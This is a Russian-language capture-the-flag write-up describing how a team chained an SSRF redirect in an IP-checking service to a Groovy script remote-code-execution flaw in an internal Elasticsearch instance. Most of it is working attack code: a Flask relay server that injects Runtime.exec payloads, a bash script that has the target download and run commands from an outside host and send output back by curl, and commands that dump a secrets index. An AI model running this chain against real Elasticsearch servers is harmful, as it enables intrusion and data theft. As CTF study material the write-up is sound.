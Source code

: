 1. Обратили внимание на ссылки вида href="/show?id=q=_id:4" и подсказку в описании задачи о быстром поиске, про эластик мы поняли сииильно позже.
2. Чекалку ip натравили на свой сервак, получили инфу что прилажка на руби и реально ходит туда куда сказали
3. Дернулли постом /show?id=q=_id:5 получили 400 - поняли что там сенатра 
4. Погуглили rce увидили только две на path traversal и на xss через 400-ку. Потеряли много времени в попытке их реализовать.
5. Дошло наконец-то про эластик, полгуглили на тему elastic rce, нашли https://github.com/t0kx/exploit-CVE-2015-1427/blob/master/exploit.sh
6. Проверили что бот реагирует на редиректы
7. Написали простенький сервер и bash скрипт
```python 
#!/usr/bin/python
from flask import Flask, request
from flask import Response
import requests
import sys
import requests, json

app = Flask(__name__)

elk_url = ""

@app.route("/save/<path:path>", methods=['POST', 'PUT'])
def saver(path):
    with open(path, 'wb') as f:
        f.write(request.stream.read().decode('base64'))
    return "saved"

@app.route("/cmd")
def cmd():
    with open('cmd', 'r') as cmd:
        resp = cmd.read()
    return resp

@app.route("/")
def hello():
    resp = Response('redirect')
    resp.headers['Location'] = elk_url
    return resp, 302

@app.route("/push/<path:path>")
def check(path):
    global elk_url
    elk_url = 'http://127.0.0.1:9200/'+ path +'?' + request.query_string.decode()
    req = requests.post("http://users.ctf2019.rocks/checkip", data={"ip":"http://89.163.129.121:5000"})
    return req.text, req.status_code

def elk_q(payload):
    requests.get("http://89.163.129.121:5000/push/_search", params={"source": json.dumps(payload)}).text

def inject(cmd):
    payload = {
        "script_fields": {
            "infophp": {
                "script":
                    '''java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("%s").getText()''' % cmd
            }
         }
    }
    elk_q(payload)

if __name__ == "__main__":
    if sys.argv[1] == 'start':
	app.run(host='0.0.0.0', port=5000, threaded=True)
    else:
        inject(sys.argv[1])
```
```bash

echo "$1 | base64 | curl -d @- http://89.163.129.121:5000/save/output" > cmd
./users.py 'wget -O /tmp/very_secret_path http://89.163.129.121:5000/cmd'; ./users.py 'bash /tmp/very_secret_path '
cat output
```
7. В run.sh увидели путь к исходнику в котором был доп
9. Вытянули второй доп из эластика
```bash
./exec.sh 'curl http://localhost:9200/_cat/indices?v'
health status index   pri rep docs.count docs.deleted store.size pri.store.size
yellow open   users     5   1         10            0     16.9kb         16.9kb
yellow open   secrets   5   1          1            0      3.1kb          3.1kb

./exec.sh 'curl http://localhost:9200/secrets/_search'
{"took":1,"timed_out":false,"_shards":{"total":5,"successful":5,"failed":0},"hits":{"total":1,"max_score":1.0,"hits":[{"_index":"secrets","_type":"secret","_id":"1","_score":1.0,"_source":{"flag":"WGCTF{B0AFB09FAC06F96059631AD5D5F0D377}"}}]}}
```

 
